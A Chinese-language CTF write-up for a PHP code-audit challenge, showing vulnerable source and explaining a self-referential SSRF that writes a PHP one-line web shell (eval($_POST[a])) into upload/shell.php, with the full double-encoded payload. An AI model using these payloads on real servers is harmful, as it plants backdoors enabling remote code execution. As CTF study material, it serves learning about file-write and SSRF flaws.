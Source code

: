 ## sycsec_audit

分类：脚本开发
## write-up

这是一道代码审计的题目，源代码如下：

```PHP
<?php
    if(isset($_GET) && !empty($_GET)) {
        $url = $_GET['file'];
        $path = "upload/" . $_GET['path'];
    } else {
        show_source(__FILE__);
        exit();
    }
    
    if(strpos($path, '..') > -1) {
        die("SYCwaf!");
    }

    if(strpos($url, 'http://127.0.0.1/') === 0) {
        file_put_contents($path, file_get_contents($url));
        echo "console.log($path update successed!)";
    } else {
        echo "Hello.Geeker";
    }
?>
```

这道题目，首先接受file和path参数，file的作用是文件读取的位置，path代表的是文件存储的位置。且file参数的值必须是以`http://127.0.0.1/`开始的才行。

对于这道题目的思路，肯定是直接能写一个shell进去，直接可以看服务器上有哪些文件了。首先需要构造的一个内容是我们读取的文件中必须要包含后门代码。观察代码我们发现含语句：`echo "console.log($path update successed!)";`这条语句能够将$path的值输出，且该参数是我们所能够控制的。构造含有一句话木马的页面回显的payload：`http://127.0.0.1/?file=http://127.0.0.1/&path=%3C?php%20eval($_POST[a]);%20?%3E`此时页面中可以产生后门代码。

接着我们重新在构造url链接，让新的url的file参数为以上的payload。此处有一个小坑，需要将&字符进行一次编码，如果不编码的话，在该&符号的时候会进行截断。将&进行一次编码即可。

在这儿还有一个坑是，由于`file_get_contents`函数其实是二次访问链接，需要将第一条payload中的参数部分进行url编码两次即可。这儿由于访问的是本地主机自己，也可以认为这是ssrf攻击。

最终的payload：`http://127.0.0.1/index.php?file=http://127.0.0.1/index.php?file=http://127.0.0.1/%26path=%253C%253Fphp%2520eval%2528%2524_POST%255Ba%255D%2529%253B%2520%253F%253E&path=shell.php`

此时在生成一个`upload/shell.php`。